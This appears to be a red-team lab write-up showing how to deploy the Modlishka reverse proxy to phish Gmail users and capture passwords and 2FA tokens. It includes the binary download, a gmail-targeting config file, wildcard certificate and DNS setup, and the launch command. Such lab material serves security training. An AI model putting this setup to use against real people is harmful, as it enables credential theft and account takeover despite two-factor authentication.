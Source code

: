 # Phishing with Modlishka Reverse HTTP Proxy

This lab shows how to setup a reverse HTTP proxy `Modlishka` that can be used in phishing campaigns to steal user passwords and 2FA tokens. Modlishka makes this possible, because it sits in the middle between the website you as an attacker are impersonating and the victim (MITM) while recording all the traffic/tokens/passwords that traverse it.

## Setup

Let's start off by building a new DigitalOcean droplet, the smallest is more than enough:

![](<../../.gitbook/assets/Annotation 2019-06-25 214151.png>)

Once logged on, install certbot and download modlishka binary itself:

```bash
apt install certbot
wget https://github.com/drk1wi/Modlishka/releases/download/v.1.1.0/Modlishka-linux-amd64
chmod +x Modlishka-linux-amd64 ; ls -lah
```

![](<../../.gitbook/assets/Annotation 2019-06-25 214300.png>)

## Modlishka Configuration

Let's create a configuration file for modlishka:

![](<../../.gitbook/assets/Annotation 2019-06-25 214425.png>)

{% code title="modlishka.json" %}
```javascript
{
  //domain that you will be tricking your victim of visiting
  "proxyDomain": "redteam.me",
  "listeningAddress": "0.0.0.0",

  //domain that you want your victim to think they are visiting
  "target": "gmail.com",
  "targetResources": "",
  "targetRules":         "PC9oZWFkPg==:",
  "terminateTriggers": "",
  "terminateRedirectUrl": "",
  "trackingCookie": "id",
  "trackingParam": "id",
  "jsRules":"",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "requests.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": ""
}
```
{% endcode %}

## Wildcard Certificates

Important - let's generate a wildcard certificate for my domain I want my phishing victims to land on `*.redteam.me`:

```csharp
certbot certonly --manual --preferred-challenges=dns --server https://acme-v02.api.letsencrypt.org/directory --agree-tos -d *.redteam.me --email noreply@live.com
```

This will generate a challenge code as shown below:

![](<../../.gitbook/assets/Annotation 2019-06-25 214749.png>)

We need to create a DNS TXT record in the DNS management console for redteam.me, which in my case is in Digital Ocean:

![](<../../.gitbook/assets/Annotation 2019-06-25 214849.png>)

Once the DNS TXT record is created, continue with the certificate generation:

![](<../../.gitbook/assets/Annotation 2019-06-25 214924.png>)

Once certificates are generated, we need to convert them to a format suitable to be embedded into JSON objects:

```bash
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/fullchain.pem
awk '{printf "%s\\n", $0}' /etc/letsencrypt/live/redteam.me/privkey.pem
```

![](<../../.gitbook/assets/Annotation 2019-06-25 215107.png>)

Once that is done, copy over the contents of the certs into the config - `fullchain.pem` into the `cert` and `privkey.pem` into the `certKey`:

![](<../../.gitbook/assets/Annotation 2019-06-25 215155.png>)

## More DNS Records

Let's create an A record for the root host `@` that simply points to the droplet's IP:

![](<../../.gitbook/assets/Annotation 2019-06-25 215308.png>)

This is very important - we need a `CNAME` record for any host/subdomain `*` pointing to `@`

![](<../../.gitbook/assets/Annotation 2019-06-25 215702.png>)

## Launching Modlishka

We are now ready to start the test by launching modlishka and giving it the modlishka.json config file:

```csharp
./Modlishka-linux-amd64 -config modlishka.json
```

Below shows how by visiting a redteam.me, I get presented with contents of gmail.com - indicating that Modlishka and the MITM works. Again, it is important to call it out - we did not create any copies or templates of the targeted website - the victim is actually browsing gmail, it's just that it is being served through Modlishka where the traffic is inspected and passwords are captured:

![](../../.gitbook/assets/modlishka.gif)

## References

{% embed url="https://github.com/drk1wi/Modlishka" %}
